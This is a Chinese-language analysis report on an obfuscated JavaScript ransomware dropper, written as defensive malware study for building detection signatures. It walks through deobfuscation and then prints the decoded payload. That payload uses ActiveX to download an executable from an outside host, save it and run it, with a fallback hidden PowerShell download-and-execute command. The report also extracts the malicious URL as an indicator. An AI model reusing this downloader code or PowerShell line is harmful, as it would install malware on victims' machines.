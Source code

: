 ﻿---
title: 脚本病毒RANSOMWARE分析报告
---


标签（空格分隔）： script_virus

---

### 0x01 样本情况
```
32469.js:
  - md5:427a1df2fa83aee62621821f7f35a06e
  - 样本下载地址：https://www.52pojie.cn/thread-632863-1-1.html
```

### 0x02 查看JS脚本
 - 显然是经过混淆的js脚本

![](https://i.screenshot.net/04pl9up)

 -  反混淆处理

[反混淆工具处理这段混淆代码](https://beautifier.io/)

![](https://i.screenshot.net/32zy1f2)

### 0x03 打印出恶意脚本
```
var EwLaTPVSfyHlreW = ('zqOVNfTKRAdfzqOVNfTKRAmzqOVNfTKRAgzqOVNfTKRArzqOVNfTKRAbz.....';
var MLzyURjFNYJQIxbmCDc = "g" + "et" + "Yea" + "r";
var uHkAOUtmzaViQTX = EwLaTPVSfyHlreW;
var vVzZhMxdJEYAONFQT = "2" + "0" + "17";
var CNybIQMgcFodZJHhw = 'dzqOVNfTKRAfzqOVNfTKRAmgrzqOVNfTKRAbzqOVNfTKRAxzqOVNfTKRARzqOVNfTKRAe.......';

if (new Date()[MLzyURjFNYJQIxbmCDc]() == new Array(vVzZhMxdJEYAONFQT)[0]) {
    var wEdOxiLVeHWouvrT = eval(uHkAOUtmzaViQTX);
}
var uILsnJawlMGyopRSN = 'zqOVNfTKRAdzqOVNfTKRAfzqOVNfTKRAmzqOVNfTKRAgzqOVNfTKRArzqOVNfTKRAbzqOVNfTKRAxR.......';
for (var WPZSvTYRVjXuQbNgtyK = 0; WPZSvTYRVjXuQbNgtyK < nIKQOjEcmAWVqZvUtT.length; WPZSvTYRVjXuQbNgtyK++) {
    var rvFBEDAKjqoLehnt = gYOPwAWSmZxeQToy(nIKQOjEcmAWVqZvUtT, WPZSvTYRVjXuQbNgtyK) + 46200 - 6600 * pmrzoakvVYNwnKP / 382800 - 46200;
    if ((rvFBEDAKjqoLehnt != 393498 * pmrzoakvVYNwnKP / 543402) && 
        (rvFBEDAKjqoLehnt != 332544 * pmrzoakvVYNwnKP / 301368) && 
        (CzPLpvSryaAiXZGe(dKAZnkglWzVuJBUro) == true) && 
        (CzPLpvSryaAiXZGe(pmrzoakvVYNwnKP) == false)) {
            QByCYPoXvHVTnhztNm += gCFshcYAGDROUTQBt(rvFBEDAKjqoLehnt);
        
    }
}
SqUXVAryZsoERdNjznB = document.write(QByCYPoXvHVTnhztNm);
```
![](https://i.screenshot.net/ekv2ds4)

```
解码格式化：
eval(unescape("var sh = new ActiveXObject("shell.application ");
try { var HTTP = new ActiveXObject("MSXML2.XMLHTTP ");
var Stream = new ActiveXObject("ADODB.Stream ");
var wsh = new ActiveXObject("wscript.shell ");
var path = wsh.SpecialFolders("Templates ")+"\\"+((Math.random()*999999)+9999|0)+".exe ";
HTTP.Open("GET ", "http: //foolerpolwer.info/admin.php?f=3", false); HTTP.Send(); if (HTTP.Status == 200) {
Stream.Open(); Stream.Type = 1; Stream.Write(HTTP.ResponseBody); Stream.Position = 0; Stream.SaveToFile(path, 2); Stream.Close(); sh.ShellExecute(path, "", "", "open", 1);
}
} catch(e) {
    //运行恶意exe
	sh.ShellExecute("cmd.exe", "/c powershell.exe -executionpolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://foolerpolwer.info/admin.php?f=3', '%appdata%rnd.exe'); start-process '%appdata%rnd.exe'", "", "open", 0);
}
")); "
```

### 0x04 提取特征
```
URL：http://foolerpolwer.info/admin.php?f=3
```
查看威胁情报,积分查IP，添加特征库
![](https://i.screenshot.net/o8nz9s6)
![](https://i.screenshot.net/xmv4rsy)
### 0x05总结
> 脚本病毒的特点是灵活，类似js脚本可以在Android、iOS、PC上跑，脚本病毒通常采用混淆保护自己，其次会下载恶意的.exe/.apk/.jar/.ipa(越狱)等文件，并将其运行。
另外感谢 直系学弟/学长帮忙，坑爹的玩意，只能在IE浏览器Debug,因为有ActiveXObject，微软特有。


 